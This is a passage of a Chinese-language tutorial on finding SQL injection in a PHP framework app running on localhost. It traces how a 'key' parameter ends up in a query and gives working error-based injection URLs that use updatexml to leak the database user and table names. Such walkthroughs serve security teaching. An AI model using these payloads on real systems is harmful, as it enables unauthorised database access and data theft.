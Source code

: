 [![](https://p5.ssl.qhimg.com/dm/1024_140_/t01b7b3ae2e38d5d4c3.png)](https://p5.ssl.qhimg.com/dm/1024_140_/t01b7b3ae2e38d5d4c3.png)

这里将传入的值预编译了，我们在这里看看最后执行的SQL语句，使用get_last_sql()函数进行查看

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/dm/1024_288_/t016123a75da4273f2b.png)

我们看看页面中的SQL语句

[![](https://p1.ssl.qhimg.com/dm/1024_558_/t0148b32fcc1101056e.png)](https://p1.ssl.qhimg.com/dm/1024_558_/t0148b32fcc1101056e.png)

操作一下这个id看看有没有反应，访问：[http://localhost/?s=index/index/data&amp;id=3%27](http://localhost/?s=index/index/data&amp;id=3%2527)

[![](https://p2.ssl.qhimg.com/dm/1024_559_/t0175f42c9838cf4559.png)](https://p2.ssl.qhimg.com/dm/1024_559_/t0175f42c9838cf4559.png)

当然在我们获取值的时候就已经将这玩意定义好了，我们改改吧！改成/c

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/dm/1024_295_/t01a625a5010368ff6f.png)

我们再来访问看看

[![](https://p1.ssl.qhimg.com/dm/1024_554_/t011b5555aa8a58285e.png)](https://p1.ssl.qhimg.com/dm/1024_554_/t011b5555aa8a58285e.png)

还是无法操作这个id，那么我们来看看这个key，访问：[http://localhost/?s=index/index/data&amp;id=3%27&amp;key=a](http://localhost/?s=index/index/data&amp;id=3%2527&amp;key=a)

[![](https://p5.ssl.qhimg.com/dm/1024_552_/t017f55acd0c3be9f74.png)](https://p5.ssl.qhimg.com/dm/1024_552_/t017f55acd0c3be9f74.png)

可以看到用户所输入的值不应该用来嵌入到语句中，而是由开发者来定义这些字段等等的，好了，我们再来看看每一个注入点所适用的注入类型，比如这些注入都有返回值和错误信息

所以我们可以用两种最简单的形式来注入一下分别是报错注入和联合查询注入

报错注入：

这里我们使用updatexml函数进行报错注入

访问：[http://localhost/?s=index/index/data&amp;id=3&amp;key=id=3%20and%20(updatexml(1,concat(0x7e,(select%20user()),0x7e),1))%23](http://localhost/?s=index/index/data&amp;id=3&amp;key=id=3%2520and%2520(updatexml(1,concat(0x7e,(select%2520user()),0x7e),1))%2523)

[![](https://p0.ssl.qhimg.com/dm/1024_552_/t0154b7fa78319e2557.png)](https://p0.ssl.qhimg.com/dm/1024_552_/t0154b7fa78319e2557.png)

[http://localhost/?s=index/index/data&amp;id=3&amp;key=id=3%20and%20(updatexml(1,concat(0x7e,(select%20table_name%20from%20information_schema.tables%20where%20table_schema=database()%20limit%200,1),0x7e),1))%23](http://localhost/?s=index/index/data&amp;id=3&amp;key=id=3%2520and%2520(updatexml(1,concat(0x7e,(select%2520table_name%2520from%2520information_schema.tables%2520where%2520table_schema=database()%2520limit%25200,1),0x7e),1))%2523)

[![](https://p1.ssl.qhimg.com/dm/1024_553_/t01a8e47560c393379b.png)](https://p1.ssl.qhimg.com/dm/1024_553_/t01a8e47560c393379b.png)
